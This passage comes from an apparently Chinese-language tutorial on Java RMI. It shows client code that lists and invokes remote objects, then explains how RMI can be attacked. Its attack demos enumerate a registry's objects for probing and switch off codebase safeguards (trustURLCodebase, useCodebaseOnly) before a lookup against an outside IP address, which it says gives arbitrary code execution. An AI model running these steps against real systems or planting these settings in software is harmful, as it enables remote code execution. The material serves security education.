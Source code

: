 	    public static void main(String[] args)  throws Exception {
	        String[] list = Naming.list("rmi://127.0.0.1");
	        System.out.println("RMI服务端所有的对象如下：");
	        for (String s : list) {
	            System.out.println(s);
	        }
	
	        //测试调用远程方法
	        System.out.println("=================================分隔符=====================================");
	        // 调用RemoteHelloWorld和hello()
	        Remote obj = Naming.lookup("rmi://127.0.0.1/Hello");
	        Class<? extends Remote> clazz = obj.getClass();
	        Object hello = clazz.getMethod("hello").invoke(obj);
	        System.out.println(hello);
	    }
	}

注意： **hello()方法实际上实在RmiServer上执行的，RmiClient只是获取到了方法返回结果** 。

运行截图如下所示：

![rmiserver][p1]

![rmiclient][p2]

RMI的主要组件示意图如下所示：

![RMI组件示意图][p3]

那么如何利用RMI进行攻击呢？

首先，如果我们可以访问RMI Register，那么我们可以遍历RMI Server上绑定的所有对象，然后探测这些对象的所有方法，如下demo所示：

    @Test
    public void test1() throws Exception{
        String[] list = Naming.list("rmi://127.0.0.1");
        ArrayList<Object> rmiObjs = new ArrayList<>();
        for (String s : list) {
            System.out.println(s);
            Remote current = Naming.lookup("rmi:" + s);
            rmiObjs.add(current);
        }
        rmiObjs.forEach(v->{
            // TODO:探测远程对象的方法，进行恶意操作
        });
    }

其次，如果我们可以控制lookup的地址和codebase(java低版本可以随意控制)，那么我们就可以利用RMI执行任意代码了，一个例子如下所示：

    @Test
    public void test2() throws Exception{
        System.setProperty("java.rmi.server.useCodebaseOnly", "false");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        Context context = new InitialContext();
        Object object = context.lookup("rmi://49.234.105.98/Hello");
        System.out.println(object);
    }
